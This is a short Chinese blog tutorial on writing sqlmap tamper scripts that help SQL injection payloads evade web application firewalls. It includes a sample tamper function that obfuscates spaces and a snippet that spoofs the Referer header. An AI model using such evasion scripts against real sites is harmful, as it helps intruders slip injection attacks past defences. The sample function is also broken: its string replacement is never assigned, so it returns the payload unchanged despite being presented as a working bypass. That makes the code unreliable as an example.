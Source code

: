 ```yaml
---
title: "SQLMap Tamper 编写"
date: 2018-05-12T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['sqli','python']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



sqlmap 是一个开源的渗透测试工具, 可以用来自动化的检测, 利用 SQL 注入漏洞, 获取数据库服务器的权限.

<!--more-->

在 sqlmap 的 tamper 中, 需要实现的地方有 3 处.

```
__priority__ - 脚本优先级
dependencies - 适用/不适用的范围
tamper - 用于 bypass waf
```

dependencies 一般不用设置, __priority__ 默认为 PRIORITY.LOW 即可

# bypass

拿之前遇到的 waf 举个例子

```
import random
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def tamper(payload, **kwargs):
    fuzz = ('0','1','2','3','4','5','6','7','8','9')
    for _ in range(len(payload.split(' '))-1):
        string = r'%' + random.choice(fuzz) + random.choice(fuzz)
        payload.replace(' ',string,1)
    return payload
```

# Other

kwargs 更改 header

```
headers = kwargs.get('headers', {})
headers['Referer'] = 'http://www.baidu.com/'
```